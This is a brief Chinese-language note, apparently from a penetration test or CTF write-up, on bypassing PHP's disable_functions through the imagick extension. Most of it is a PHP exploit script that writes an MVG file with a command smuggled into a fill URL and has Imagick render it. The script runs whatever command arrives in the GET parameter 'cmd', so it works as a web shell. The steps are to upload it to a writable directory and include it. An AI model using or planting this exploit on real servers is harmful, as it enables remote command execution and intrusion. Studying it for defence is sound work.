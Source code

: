 发现使用了imagick拓展

将此利用脚本上传到主机上有权限的目录

```php
<?php
echo "Disable Functions: " . ini_get('disable_functions') . "\n";

$command = PHP_SAPI == 'cli' ? $argv[1] : $_GET['cmd'];
if ($command == '') {
   $command = 'id';
}

$exploit = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|$command")'
pop graphic-context
EOF;

file_put_contents("KKKK.mvg", $exploit);
$thumb = new Imagick();
$thumb->readImage('KKKK.mvg');
$thumb->writeImage('KKKK.png');
$thumb->clear();
$thumb->destroy();
unlink("KKKK.mvg");
unlink("KKKK.png");
?>
```

然后包含该脚本并GET传参cmd执行命令